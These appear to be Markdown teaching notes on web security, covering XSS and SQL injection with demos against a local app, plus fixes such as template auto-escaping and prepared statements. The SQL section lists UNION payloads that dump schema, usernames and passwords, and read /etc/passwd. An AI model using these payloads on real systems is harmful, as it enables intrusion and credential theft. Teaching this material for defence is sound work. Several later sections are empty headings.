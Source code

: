 >_'Focus on attacks to know how to protect'_

What is security?
- Confidentiality - no stolen data
- Integrity - no corrupt data
- Availability - no DoS

http://www.owasp.org - security wiki/community

https://www.exploit-db.com/ - attack wiki/community

# Client Side

## GET and POST
Should accept only relevant parameters
- if GET accepts POST params - allows to hide values, send more data, bypass firewalls
- if POST accepts GET params - easier CSRF

## Input Data
Whole HTTP request including headers, imported files, file names etc.

DEMO: if Apache access logs are publicly visible, then it is possible to inject JS via User-Agent

## Input Data Validation
1. Client-side - usability
2. Server-side - validation

Invalid input means:
- insufficient client-side check or
- hacker

## Input manipulation tools
- Burp Suite
- Tamper data FF plugin

## Web Content Injection - typically named XSS
1. USER enters some data (e.g. username/password)
2. CLIENT sends HTTP REQUEST to SERVER
3. Server creates HTTP RESPONSE and sends it to CLIENT
4. CLIENT renders data that comes from SERVER
  - renders HTML
  - loads content, e.g. ```<img> <iframe> <script> <style>```
  - executes Javascript
5. USER enters some data and modifies DOM CLIENT-side
  e.g. $('div').innerHtml = <script>alert(1)</script>

### HTML injection
```html
<input value="user-input" />
<input value=user-input /> <!--HTML5-->
```
### DEMO
http://localhost:8080/search

- When query is entered it is reflected back by server
- Searching for: `test ' " < > <tag>`
- check 'View source' not 'Inspect' to find broken HTML
- `" autofocus onfocus="alert(1)"`
- chrome detects XSS attack vector - what about safari, firefox

#### Wrong Content-Type
http://localhost:8080/rest/partner

What if partner can change his name?
http://localhost:8080/rest/partner?name=abc

#### "I use well-known templating framework and it will do the work"
Spring Boot App + Freemarker

http://freemarker.org/docs/pgui_config_outputformatsautoesc.html

> _By default, templates have "undefined" output format associated, which does no escaping, and in general gives the behavior that you would expect from a template engine that doesn't care about output formats and escaping._

```java
configuration.setOutputFormat(HTMLOutputFormat.INSTANCE);
```

### Javascript injection

? $.getJSON

x-content-type-options: nosniff

### URL manipulation

## Cookies
## Sessions
## Request Forgery
## UI redress attacks

## Server Side

## Business logic flaws
## Google hacking
## File handling

## SQL injection

### DEMO: SELECT
http://localhost:8080/sql/search
- ' OR 1=1
- ' OR 1=1 #

#### How many columns there are?
- ' UNION SELECT 1 #
- ' UNION SELECT 1,2 #
- etc.

#### Useful info
```sql
SELECT DATABASE(), USER(), SERVER()
```
- ' UNION SELECT 1, USER(), 3 #

#### Database structure
E.g. MySQL
```sql
SELECT * FROM INFORMATION_SCHEMA.COLUMNS
```
' UNION SELECT 1, CONCAT(TABLE_SCHEMA,',',TABLE_NAME,',',COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS #

#### User table
' UNION SELECT 1, CONCAT(USERNAME,',',PASSWORD), 3 FROM USERS #

#### Read files
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3 #

#### FIX - Prepared statements

```java
  PreparedStatement updateSales = con.prepareStatement(
      "SELECT * FROM products WHERE name like ?");
  updateSales.setString(1, "%"+query+"%");
```

What about searching: `%`

### DEMO: UPDATE

### DEMO: ORDER BY



### DEMO: BLIND


### DEMO: console
